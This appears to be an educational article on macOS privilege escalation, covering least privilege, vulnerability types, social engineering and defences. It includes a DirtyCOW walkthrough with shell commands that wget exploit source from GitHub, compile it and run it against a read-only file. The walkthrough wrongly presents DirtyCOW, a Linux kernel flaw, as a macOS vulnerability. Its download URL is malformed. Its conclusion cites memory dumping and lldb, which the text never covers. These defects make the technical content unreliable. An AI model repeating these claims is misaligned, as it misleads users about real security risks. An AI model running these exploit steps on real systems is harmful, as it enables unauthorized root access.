 # macOS Security & Privilege Escalation


# 👉 Overview

---

### 👀 What ?

macOS Security & Privilege Escalation refers to the methods and mechanisms by which a user or a process in a macOS system can gain higher access rights, or 'privileges', than those initially granted. This can be used both legitimately by system administrators to perform necessary tasks, and maliciously by attackers to compromise the system.


### 🧐 Why ?

Understanding macOS Security & Privilege Escalation is important because macOS systems are widely used in both personal and business settings. System administrators need to understand how to escalate privileges to perform their jobs effectively, while security professionals need to understand how these mechanisms can be exploited in order to protect against them. For general users, understanding these concepts can help them maintain their system's security and respond effectively if they suspect a security breach.


### ⛏️ How ?

To use macOS Security & Privilege Escalation to your advantage, you first need to understand the various user roles and privilege levels in a macOS system. The highest level of access is 'root', which has complete control over the system. To escalate privileges, you can use methods such as exploiting system vulnerabilities, manipulating user permissions, or using social engineering techniques. However, these methods should be used responsibly and ethically, and only with proper authorization.


### ⏳ When ?

Privilege escalation has been a concept in computer security since the earliest days of multi-user systems, and it is a feature in all modern operating systems, including macOS. As security measures have become more sophisticated, so too have the methods for bypassing them.


# ⚙️ Technical Explanations

---

### Overview

The principle of least privilege is foundational to effective information security. It dictates that users and processes should be granted the minimal level of access necessary to perform their functions. This principle helps minimize potential damage if a system is compromised.

In macOS, this means ensuring users and applications operate with only the permissions they need. Limiting privileges reduces the risk of unauthorized access or the exploitation of vulnerabilities to gain elevated privileges.

### Understanding Privilege Escalation

Privilege escalation involves gaining higher levels of access than initially granted. On macOS, the highest privilege level is 'root', which provides complete control over the system. Attackers often target privilege escalation to gain root access.

There are two primary methods for privilege escalation:

1. **Exploiting System Vulnerabilities**: These can include bugs in the operating system or installed software. One common example is a buffer overflow vulnerability. A buffer overflow occurs when a program writes more data to a buffer than it can hold, potentially leading to the execution of arbitrary code with elevated privileges.
2. **Manipulating User Permissions**: This often involves social engineering, such as phishing, where users are tricked into revealing their passwords or other sensitive information.

### Types of System Vulnerabilities

- **Buffer Overflows**: These occur when a program writes more data to a buffer than it can handle. This can lead to crashes, arbitrary code execution, or altered program execution.
- **Race Conditions**: These occur when the system's behavior depends on the sequence or timing of uncontrollable events. An attacker can exploit race conditions to execute code inappropriately.
- **Misconfigurations**: These include improper permission settings that can be exploited to gain unauthorized access.

### Social Engineering Tactics

- **Phishing**: Tricking users into providing sensitive information by masquerading as a trusted entity.
- **Spear Phishing**: Targeted phishing attacks aimed at specific individuals or organizations.
- **Pretexting**: Creating a fabricated scenario to steal personal information.
- **Baiting**: Offering something enticing to get users to reveal sensitive information.

### Defending Against Privilege Escalation

- **Regular Updates**: Keep all systems and software up to date with the latest patches and security updates.
- **Strong Passwords**: Use strong, unique passwords and change them regularly.
- **User Education**: Educate users about the risks of phishing and other social engineering attacks.
- **Access Controls**: Implement strict access controls and monitor for unauthorized access attempts.

### Real-World Example: DirtyCOW (CVE-2016-5195)

DirtyCOW is a well-known privilege escalation vulnerability in the Linux kernel, which was also present in macOS. It exploits a race condition in the Copy-On-Write (COW) mechanism to gain write access to read-only memory mappings.

### Exploitation Steps:

1. **Login as a Normal User**: The attacker logs into the macOS system with normal user privileges.
    
    ```bash
    login: user
    password: ****
    
    ```
    
2. **Download and Compile the Exploit**: The attacker downloads and compiles the DirtyCOW exploit code.
    
    ```bash
    wget <https://github.com/dirtycow/dirtycow.github.io/blob/master/dirtyc0w.c
    gcc -pthread dirtyc0w.c -o dirtyc0w
    
    ```
    
3. **Run the Exploit**: The attacker runs the exploit on a read-only file. Due to the vulnerability, the exploit modifies the file.
    
    ```bash
    ./dirtyc0w target_file.txt "malicious_content"
    
    ```
    
4. **Escalate Privileges**: The attacker now has elevated privileges and can modify system files or perform unauthorized actions.

### Mitigation:

- **Patch Systems**: Ensure systems are updated with patches that fix vulnerabilities like DirtyCOW.
- **Limit Untrusted Code Execution**: Avoid running untrusted code, which could exploit vulnerabilities.
- **Monitor System Activity**: Use monitoring tools to detect unusual activity that could indicate an exploit attempt.

### Conclusion

Understanding macOS security and privilege escalation is crucial for both system administrators and cybersecurity professionals. By adhering to the principle of least privilege, keeping systems updated, using strong passwords, educating users, and implementing robust access controls, the risk of privilege escalation can be significantly reduced. While tools and techniques like memory dumping and `lldb` debugger facilitate deep system analysis, they must be used responsibly to maintain system security and integrity.

# 🖇️ Références

---
